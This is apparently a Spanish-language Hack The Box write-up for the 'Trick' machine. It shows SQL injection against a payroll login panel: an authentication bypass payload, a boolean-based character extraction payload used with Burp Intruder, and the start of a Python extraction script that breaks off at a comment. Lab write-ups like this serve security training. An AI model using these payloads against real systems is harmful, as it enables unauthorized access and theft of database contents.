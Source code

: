 ![](/assets/images/htb-writeup-trick/subdominio_1.png)

<br>Podemos probar el uso de credenciales por defecto como **admin:admin admin:admin123** etc pero no nos serviran. Si probamos una inyección SQL básica como: **' or 1=1-- -** lograremos acceder al panel como Administrador. Pero este panel tambien es vulnerable a una **SQL Injection Time Based y Conditional Error** por lo que haremos un script para practicar ambas.

Usaremos Burpsuite para interceptar la petición del panel login.

### SQLI Conditional Response
Esta forma es la más rapida ya que no requiere que esperemos para ver la respuesta. El payload seria el siguiente: **' or (select substring(database(),1,1)='a')-- -** Para descubrir con que letra empieza la base de datos usaremos un ataque de tipo **Sniper** de **Burpsuite**
![](/assets/images/htb-writeup-trick/Intruder_trick.png)
<br>Como podemos observar el caracter **p** devuelve una respuesta diferente al resto, por lo que esa seria la correcta. Sabiendo esto podemos empezar a scriptear. Para este ejemplo enumerarmos los esquemas, tablas y columnas, en la **Time Based** enumeraremos el usuario y la contraseña
```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, sys, time, signal, string


def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

# Ctrl C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url="http://preprod-payroll.trick.htb/ajax.php?action=login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.punctuation

# Enumeracion del nombre de la base actualmente en uso:
```